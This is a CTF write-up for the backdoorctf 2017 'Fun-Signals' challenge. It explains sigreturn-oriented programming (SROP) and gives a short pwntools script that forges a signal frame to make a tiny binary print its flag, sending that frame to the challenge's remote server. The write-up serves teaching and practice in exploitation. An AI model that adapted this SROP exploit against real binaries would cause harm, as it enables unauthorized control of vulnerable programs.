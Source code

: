 ```yaml
---
title: backdoorctf 2017 - Fun-Signals Writeup
date: '2017-09-24'
lastmod: '2023-07-03T19:19:24+02:00'
categories:
- ctf_backdoorctf17
- writeup
- backdoorctf17
tags:
- exploitation
authors:
- andreafioraldi
---
```


This binary has a very small portion of code.

Analize it in IDA:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/funsignals-1.png" alt="IDA screenshot showing disassembled binary code with syscalls to read() and rt_sigreturn()" width="603" height="260">

The first syscall is a read (rax = 0) of 1024 bytes in the stack.

The second is rt_sigreturn.

For a l337 h4xx0r sigreturn means SROP. For me it means [Wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming).

I learnt that we can control the program flow like with rop using sigreturn and the associated structure on the stack.

This structure contains the context of the signal handler.

So writing this structure on the stack (with read) we have the complete control of all registers.

A good choice is to prepare the registers for a write to the stdout of the flag.

The syscall gadget under `int 3` is a perfect target for rip.

Wait, how is composed a signal frame? I don't know, but pwnlib does.

```python
from pwn import *

context.arch = "amd64"

frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = 0x10000023 #flag string address
frame.rdx = 50 #read size
frame.rsp = 0xABADCAFE
frame.rip = 0x10000015 #syscall gadget

#p = process("./player_bin")
p = remote("163.172.176.29", 9034)
p.send(str(frame))

print p.recvall()
```
